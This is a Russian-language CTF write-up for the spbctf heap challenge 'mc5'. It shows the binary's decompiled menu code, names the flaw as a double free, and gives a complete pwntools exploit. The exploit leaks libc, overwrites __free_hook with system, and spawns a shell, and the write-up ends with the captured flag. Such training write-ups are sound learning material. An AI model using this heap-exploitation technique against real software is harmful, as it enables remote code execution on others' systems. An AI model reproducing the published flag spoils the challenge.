

[Tasks :: pwn.spbctf.ru](https://pwn.spbctf.ru/tasks/pwn9_mc5)
Hi! Let_s combine all together...
`nc 109.233.56.90 11804`
**[mc5.elf](https://pwn.spbctf.ru/files/bins/mc5/mc5.elf)**  
**[libc.so](https://pwn.spbctf.ru/files/bins/mc5/libc.so)**

``` C
void __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, nullptr, 2, 0);
  setvbuf(stdin, nullptr, 2, 0);
  setvbuf(stderr, nullptr, 2, 0);
  logic();
}

void logic()
{
  int choice; // [rsp+0h] [rbp-28h] BYREF
  unsigned int index; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 canary; // [rsp+8h] [rbp-20h]

  canary = __readfsqword(0x28u);
  while ( 1 )
  {
    puts("Choose:\n\t1 - allocate mem print and free\n\t2 - print name\n\t3 - delete\n\t4 - edit");
    choice = 3;
    alarm(0x78u);
    if ( __isoc99_scanf("%d", &choice) != 1 )
      break;
    getc(stdin);
    switch ( choice )
    {
      case 1:                                   // аллоцировать
        allocate();
        break;
      case 2:                                   // напечатать
        puts("Index?");
        index = 800;
        __isoc99_scanf("%d", &index);
        getc(stdin);
        if ( index > 0x27 )
          goto LABEL_11;
        puts(array[index]);
        break;
      case 3:                                   // удалить
        puts("Index?");
        index = 800;
        __isoc99_scanf("%d", &index);
        getc(stdin);
        if ( index > 0x27 )
LABEL_11:
          puts("...");
        else
          free(array[index]);
        break;
      case 4:                                   // редактировать
        puts("Sorry, no...");
        break;
      default:
        puts("What?");
        return;
    }
  }
}

void allocate()
{
  __int64 i; // rax
  __int64 index; // rbp
  char *buf; // rbx
  __int64 v3; // rbp
  int size; // [rsp+0h] [rbp-28h] BYREF
  int v5; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 canary; // [rsp+8h] [rbp-20h]

  canary = __readfsqword(0x28u);

  i = 0;
  while ( 1 )
  {
    index = i;
    if ( !array[i] )
      break;
    if ( ++i == 40 )
    {
      puts("full!");
      return;
    }
  }

  puts("alloc size?");
  __isoc99_scanf("%d", &size);
  getc(stdin);
  if ( (size - 1) <= 0x7FE )
  {
    array[index] = malloc(size);
    puts("enter name size:");
    __isoc99_scanf("%d", &v5);
    getc(stdin);
    puts("enter name:");
    buf = array[index];
    if ( v5 > 0 )
    {
      v3 = &buf[v5 - 1 + 1];
      while ( read(0, buf, 1u) + 1 > 1 && *buf != 10 )
      {
        if ( ++buf == v3 )
          return;
      }
      *buf = 0;
    }
  }
}
```

Уязвимость: RCE на __free_hook через Double Free.

Эксплоит:
``` C
def read_menu(io):
    io.recvuntil(b'4 - ')
    io.readline()

def alloc(io, size, data):
    read_menu(io)
    io.sendline(b'1')
    io.sendline(str(size).encode())
    io.sendline(str(len(data)).encode())
    io.sendline(data)

def print_chunk(io, index):
    read_menu(io)
    io.sendline((f'2 {index}').encode())
    io.recvline()
    data = io.recvline()[:-1]
    return data

def delete(io, index):
    read_menu(io)
    io.sendline((f'3 {index}').encode())

main_arena_offset = 0x1ebb80
unsorted_bin_offset = main_arena_offset + 0x60
__free_hook_offset = libc.sym['__free_hook']
system_offset = libc.sym['system']
 
io = start()

# Leak libc
alloc(io, 2000, b'a')
alloc(io, 0x80, b'a')
delete(io, 0)

leak = print_chunk(io, 0)
leak = u64(leak.ljust(8, b'\x00'))
libc_base = leak - unsorted_bin_offset
print('[+] Leak libc: ', hex(libc_base))

__free_hook = libc_base + __free_hook_offset
print('[+] __free_hook: ', hex(__free_hook))
system = libc_base + system_offset
print('[+] system: ', hex(system))

# Dobule Free
for _ in range(9):
    alloc(io, 0x20, b'qwe') # index = [2..10]

for i in range(9):
    delete(io, i+2)
delete(io, 9)

# Send payload
for _ in range(7):          # index = [11..17]
    alloc(io, 0x20, b'qwe')

payload = p64(__free_hook)
alloc(io, 0x20, payload)    # index = 18

alloc(io, 0x20, b'qweqwe')  # index = 19
alloc(io, 0x20, b'/bin/sh') # index = 20

payload = p64(system)
alloc(io, 0x20, payload)    # index = 21

# RCE
delete(io, 20)

io.interactive()
```

Запуск:


Ответ: `spbctf{mic_check_dblfree!ripplestripe}`